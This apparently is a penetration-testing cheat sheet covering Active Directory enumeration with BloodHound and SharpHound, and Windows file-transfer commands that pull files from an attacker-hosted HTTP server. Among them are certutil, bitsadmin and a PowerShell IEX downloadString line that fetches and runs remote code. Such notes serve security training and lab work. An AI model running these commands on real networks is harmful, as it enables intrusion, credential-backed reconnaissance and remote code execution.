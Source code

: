 ### Enumerate AD with Bloodhound

`Bloodhound` is a program that is used to enumerate AD environments. This program needs a harvester, that collects all the information of the AD, in this case we will use `SharpHound` . This harvester, has to be executed in a machine belonging to the domain, that means we need valid user credentials in order to use `BloodHound`.

To launch `Bloodhound` we will use the following commands:

```bash
neo4j console
```

```bash
bloodhound
```

As we have said, we need a harvester that collects information of the AD. To harvest this information, we will upload the `Sharphound.ps1` file to the target machine. Them we will use the following command to create the `.zip`file containing all the information of the AD:

```bash
Invoke-Bloodhound -Collection Method All
```

This will create a `.zip` in the current directory. We will move this file to the attackers machine and lastly we will import it to `Bloodhound`.


## Exploitation

### Upload and Download Files in Windows

#### HTTP

First, we will need to create an `HTTP` server that contains the files that we want to download in the target machine, to do this we will use the `python3 -m http.server` command.

#### CMD

To download the files hosted in the `HTTP` from the `CMD`,  we can use any of this commands:

```powershell
Certutil.exe -f -split -urlcache http://10.10.10.2:8000/file file

bitsadmin /transfer job http://10.10.10.2:8000/file file

curl http://10.10.10.2:8000/file -o file
```

#### Powershell

To download the files hosted in the `HTTP` from `Powershell`,  we can use any of this commands:

```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.10.2:8000/file')

iwr -Uri http://10.10.10.2:8000/file -OutFile file

wget http://10.10.10.2:8000/file -OutFile file
```
